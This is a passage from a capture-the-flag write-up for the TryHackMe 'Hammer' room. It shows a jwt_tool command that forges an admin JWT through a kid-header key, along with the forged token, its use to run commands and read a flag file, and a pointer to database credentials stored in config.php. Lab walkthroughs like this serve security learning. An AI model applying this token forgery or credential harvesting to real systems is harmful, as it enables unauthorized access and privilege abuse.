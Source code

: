 3. Now we can grab this new token and sign it with the `188ade1.key` file

```console
$ jwt_tool.py -S hs256 -k ./188ade1.key 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L2h0bWwvMTg4YWRlMS5rZXkifQ.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzI1MjE0MDc0LCJleHAiOjE3MjUyMTc2NzQsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJhZG1pbiJ9fQ.F9cMQWLXA68pD7ouNbg7DEroxENwPEXf9U9qlx1G7cc'

...

jwttool_dcebbc1ad8392964658d8f3881d01c74 - Tampered token - HMAC Signing:
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L2h0bWwvMTg4YWRlMS5rZXkifQ.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzI1MjE0MDc0LCJleHAiOjE3MjUyMTc2NzQsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJhZG1pbiJ9fQ.gbonli7DyhtjqeYcmQE3bsRCaVmDKBTzDhLEOpeMl9w
```

### Running commands as admin
Let's replace the token in the `Authorization` header with our newly generated and signed token and see if we can run any command other than `ls`
![9c1a0d200be4154d5998659bffb93db3.png](9c1a0d200be4154d5998659bffb93db3.png){: w="700" h="300" .center}

Let's try to read the contents of `/home/ubuntu/flag.txt`
![ed2fe6c8fa221a839b33d2234909391b.png](ed2fe6c8fa221a839b33d2234909391b.png){: w="700" h="300" .center}

> I originally got a reverse shell on the system and tried escalating privileges to **root** by I was unsuccessfull.
> 
> You will find the mysql database credentials inside `/var/www/html/config.php` and then login from **phpmyadmin** but there isn't anything interesting there.
{: .prompt-info}

## Outro
Many thanks to the creator of this room [1337rce](https://tryhackme.com/p/1337rce)
- Since I wasn't aware of `X-Forwarded-For` rate-limit bypass method, I had to get creative and come up with my own way to bypass it.
- I also learned something new from this room which was the `JWT Kid Attack`

Overall, an amazing and informative room.

\- m3gakr4nus

